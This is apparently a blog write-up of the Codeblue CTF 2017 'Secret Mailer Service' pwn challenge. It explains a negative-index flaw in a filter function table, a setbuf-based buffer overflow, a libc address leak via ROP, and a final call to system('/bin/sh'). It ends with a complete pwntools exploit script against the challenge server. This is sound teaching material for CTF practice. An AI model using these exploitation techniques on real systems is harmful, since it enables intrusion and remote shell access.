 ```yaml
---
layout: post
title: Codeblue CTF 2017 - Secret Mailer Service
categories: ctf_codeblue2017
keywords: "pwn rop overflow setbuf"
comments: true
authors:
    - dp1
---
```

{{ page.date | date: "%B %-d, %Y" }}

<script type="text/javascript" async
  src="https://cdn.rawgit.com/mathjax/MathJax/2.7.1/MathJax.js?config=TeX-MML-AM_CHTML">
</script>
<script type="text/x-mathjax-config">
MathJax.Hub.Config({
  TeX: { equationNumbers: { autoNumber: "AMS" } },
  tex2jax: {
    inlineMath: [['$','$'], ['\\(','\\)']],
    processEscapes: true
  }
});
</script>

For this challenge we're given the binary of a service, `mailer`. There are 5 letters allocated on the stack which we can work on, and every time a letter is referenced the code checks if the index is valid - no exploits there. The service allows us to write, delete and post letters, where posting a letter really means writing out its contents to `/dev/null` with the ability to use a filter. It's in the filter selection that we find our vulnerability:

```cpp
int post_letter(Letter *letters, FILE *s)
{
    int v3;
    int v4;

    puts("\nWhich letter do you want to post?");
    printf("ID (0-%d): ", 4);
    v4 = read_number();
    if ( v4 < 0 || v4 > 4 || !letters[v4].present )
        return puts("Invalid ID.");
    puts("\nWhich filter do you want to apply?");
    filter_menu();
    v3 = read_number();
    if ( v3 > 2 )
        return puts("Invalid filter.");
    filters[v3](s, letters[v4].data, letters[v4].length);
    return puts("\nDone!");
}
```

The filter id is only checked to be <= 2 and not >= 0. This allows us to input a negative number in there and, since the filters are implemented as a lookup table of function addresses, we can basically call whatever function we want, as long as the parameters are compatible. What I did was call the setbuf entry in plt by using index -15, thus setting the data of one of the filters as the buffer for `/dev/null`. The nice part here is that libc assumes this buffer to be at least 8192 bytes long, so by posting other letters we can overflow it.

Let's have a quick look at how a letter is saved in memory:

```cpp
00000000 Letter          struc ; (sizeof=0x108, mappedto_5)
00000000 present         dd ?
00000004 length          dd ?
00000008 data            db 256 dup(?)
00000108 Letter          ends
```

And at the stack of the main loop (please note this is the inverted stack layout used by ida, lower addresses are on top):

```cpp
-0000053C stream          dd ?                    ; /dev/null
-00000538 var_538         dd ?
-00000534 var_534         dd ?
-00000530 data            Letter 5 dup(?)
-00000008 var_8           dd ?
-00000004 var_4           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```

The logical thing to do now is overflow the buffer for the last letter, getting full control of the return address while leaving the other entries free for our use - remember that to overflow the buffer we have to post other letters' contents. Unfortunately, we still don't know any libc address, so that's what we're going to focus on next. I did it in a quite convoluted way, but a way I liked: I realized that we could return first to the `read_letter` function, whose role is to read a string into a buffer, and give it the address of some free memory area in order to write a format string there, and then call `printf` to leak a plt address. The end of this first step is returning back to the main loop, now knowing libc's base address.

For the second and last step, I used the same setbuf and read_letter calls, only this time providing `"/bin/sh"` instead of `"%s"` to the latter. Then the logical thing was to call `system` on the buffer, getting a shell on the remote server. A couple of commands later, I got this:
`CBCTF{4R3_YOU_w4RM3D_UP_f0R_MORE_PWNabLeS?}`

Hell, this one took me a long time to figure out and it was only meant to be a warmup?

---

This is the full exploit script:

```python
from pwn import *

def chunks(data, step):
	for i in range(0, len(data), step):
		yield data[i:min(i+step, len(data))]

def add_letter(r, letter):
	r.recvuntil('> ')
	r.sendline('1')
	r.recvuntil('Input your contents:')
	r.sendline(letter)

def delete_letter(r, letterid):
	r.recvuntil('> ')
	r.sendline('2')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))

def post_letter(r, letterid, filterid):
	r.recvuntil('> ')
	r.sendline('3')
	r.recvuntil('(0-4):')
	r.sendline(str(letterid))
	r.recvuntil('> ')
	r.sendline(str(filterid))


libc = ELF('./libc.so.6')

r = remote('sms.tasks.ctf.codeblue.jp', 6029)
#r = process('./mailer')


### First step: obtain libc base address

buf_addr = 0x0804B040
p = 'A' * (256 + 12)

# write the format string using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(4)

# call printf("%s", plt.atoi)
p += p32(0x080484C0)
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(0x0804B03C) # got address for atoi

# call main_loop once again
p += p32(0x08048BD0)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4');
r.recvuntil(':)')
r.sendline('%s')
r.readline()
dump = r.readline()

atoi_addr = ord(dump[0]) + (ord(dump[1]) << 8) + (ord(dump[2]) << 16) + (ord(dump[3]) << 24)
print 'Atoi addr: 0x%x' % atoi_addr
libc_addr = atoi_addr - libc.symbols['atoi']
print 'Libc base: 0x%x' % libc_addr


### Second step: call system("/bin/sh")

p = 'A' * (256 + 12)

# write /bin/sh using read_letter
p += p32(0x080486D9) # read_letter
p += p32(0x08048daa) #pop;pop;ret
p += p32(buf_addr)
p += p32(16)

# call system("/bin/sh")
p += p32(libc_addr + libc.symbols['system'])
p += p32(0x08048dab) #pop:ret
p += p32(buf_addr)

# call fail
p += p32(0x0804868B)

for i in range(5):
	add_letter(r, '')
delete_letter(r, 0)

# setbuf(/dev/null, letters[4].data)
post_letter(r, 4, -15)

for chunk in chunks(p, 200):
	print 'Chunk: ' + chunk
	add_letter(r, chunk)
	post_letter(r, 0, 0)
	delete_letter(r, 0)

r.sendline('4')
r.recvuntil(':)')
r.sendline('/bin/sh')

r.interactive()

```
